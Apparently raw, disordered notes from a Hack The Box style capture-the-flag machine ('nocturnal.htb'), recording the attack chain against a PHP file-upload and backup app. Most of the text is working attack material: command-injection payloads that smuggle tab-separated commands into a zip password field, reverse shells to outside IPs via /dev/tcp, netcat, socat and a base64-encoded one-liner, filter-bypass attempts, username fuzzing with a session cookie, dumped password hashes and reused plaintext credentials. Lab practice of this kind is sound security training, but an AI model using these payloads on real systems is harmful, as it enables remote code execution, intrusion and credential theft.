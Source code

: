 ___


# get uploaded file
GET /view.php?username=test&file=test.pdf HTTP/1.1
Host: nocturnal.htb


# upload file

POST /dashboard.php HTTP/1.1
Host: nocturnal.htb



# ferox output

 🎯  Target Url            │ http://nocturnal.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /home/ew/Documents/wordlists/SecLists/Discovery/Web-Content/raft-large-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      161l      327w     3105c http://nocturnal.htb/style.css
200      GET       21l       45w      644c http://nocturnal.htb/login.php
200      GET       21l       45w      649c http://nocturnal.htb/register.php
200      GET       29l      145w     1524c http://nocturnal.htb/
403      GET        7l       10w      162c http://nocturnal.htb/uploads
301      GET        7l       12w      178c http://nocturnal.htb/backups => http://nocturnal.htb/backups/
403      GET        7l       10w      162c http://nocturnal.htb/uploads_admin
403      GET        7l       10w      162c http://nocturnal.htb/uploads_user
403      GET        7l       10w      162c http://nocturnal.htb/uploads_group
403      GET        7l       10w      162c http://nocturnal.htb/uploads2
403      GET        7l       10w      162c http://nocturnal.htb/uploads_video
403      GET        7l       10w      162c http://nocturnal.htb/uploads_forum
403      GET        7l       10w      162c http://nocturnal.htb/uploads_event
403      GET        7l       10w      162c http://nocturnal.htb/uploads3
403      GET        7l       10w      162c http://nocturnal.htb/uploads4
403      GET        7l       10w      162c http://nocturnal.htb/uploads6
403      GET        7l       10w      162c http://nocturnal.htb/uploads_files
403      GET        7l       10w      162c http://nocturnal.htb/uploads7
403      GET        7l       10w      162c http://nocturnal.htb/uploads5
403      GET        7l       10w      162c http://nocturnal.htb/uploads_game
403      GET        7l       10w      162c http://nocturnal.htb/uploads_vid
[####################] - 3m    124567/124567  0s      found:21      errors:1      
[####################] - 3m     62282/62282   383/s   http://nocturnal.htb/ 
[####################] - 3m     62282/62282   386/s   http://nocturnal.htb/backups/               


# regex filter



- regex filter is getting rid of the beggining of file name with /  and \ 

payload.php%00.jpg OR payload.php\x00.jpg



payload.php.doc

this works but file is still not being executed as php


# fuzz the usernames parameter

make sure to add the cookie in the requests


ffuf -w /home/ew/Documents/wordlists/wordlist/usernames.txt -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.doc' -b "PHPSESSID=v6qr9bueer8m3cdpv1odh36gvb"  -fs 2985  

needed cookie to fuzz


amanda user was found 


# amanda pass: (has access to admin panel)

# arHkG7HAI68X8s1J

9
uploading files POSTS to dashboard.php

view.php GET request for downloading files associated with user


$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile



1234"%09"backups/cool.zip"%09../nocturnal_database%09>%09/tmp/cool_backup#




1234"shellCMDHERE

1234"%09backups/backup_2025_05_11.zip%09..%09#

1234"%09mkfifo%09/tmp/f

1234"%09cat%09/tmp/f%09


1234"%09busybox%09nc%09-l%09-p%094444%09-e%09/bin/sh




1234"socat%09TCP:10.10.14.25:443%09EXEC:sh



1234"%09/bin/bash%09-i%09>&%09/dev/tcp/10.10.14.23/4444%090>&1

1234"%09/bin/bash%09-i%09>%09/dev/tcp/10.10.14.23/4444%090>1


# this but I get that my ip is refusing the connection???
1234"%09busybox%09nc%0910.10.14.25%094444%09-e%09/bin/bash








       On ‘server’ side:

             $ rm -f /tmp/f; mkfifo /tmp/f
             $ cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 1234 > /tmp/f

       On ‘client’ side:

             $ nc host.example.com 1234
             $ (shell prompt from host.example.com)
 


# this is cleaning/filtering entries
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}


"test%09cool%09../nocturnal_database/nocturnal_database.db%09#//






# this worked !!!!!!!!!!

1234"zip%09-r%09backups/cool.zip%09../nocturnal_database/%09



port 8080 on the machine is running ispconfig web portal


# grabbed db with hashes

sqlite> select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
6|kavi|f38cde1654b39fea2bd4f72f1ae4cdda
7|e0Al5|101ad4543a96a7fd84908fd0d802e7db

slowmotionapocalypse
slowmotionapocalypse
slowmotionapocalypse
slowmotionapocalypse


# port forwarding ispconfig

ssh -L 8080:localhost:8080 tobias@nocturnal

this makes port 8080 on remote host accesible on my machine


creds for ispconfig were:
admin
slowmotionapocalypse




zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile

%09 - not working as space
test"	cool	../nocturnal_database/nocturnal_database.db	#//
test"	cool	../nocturnal_database/nocturnal_database.db	#//

# these made things happen

zip -x './backups/*' -r -P pass coolBak ..nocturnal_database/nocturnal_database.db  > " . $logFile . " 2>&1 &";


if u do a backup and pass a password parameter eventually that gets passed into a shell


<?php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";


# $password


$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";

bash zip -x ./backups/* -r -P ()





```powershell
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # Only if the first cmd fail
```

|| ls

# this cleans it

function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}




either bypass backup blacklist filter
either bypass view.php basename() for dir traversal


$db = new SQLite3('../nocturnal_database/nocturnal_database.db');
$user_id = $_SESSION['user_id'];
$username = $_SESSION['username'];



%0abash "sh -i >& /dev/tcp/10.10.14.25/443 0>&1"

/bin/echo -e


bash -c "sh -i >& /dev/tcp/10.10.14.25/443 0>&1"

YmFzaCAtYyAic2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjUvNDQzIDA+JjEiCg==


base64 -D <<< YmFzaCAtYyAic2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjUvNDQzIDA+JjEiCg== | sh




../nocturnal_database/nocturnal_database.db




function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

    foreach ($blacklist_chars as $char) {
        if (strpos($entry, $char) !== false) {
            return false; // Malicious input detected
        }
    }

    return htmlspecialchars($entry, ENT_QUOTES, 'UTF-8');
}

































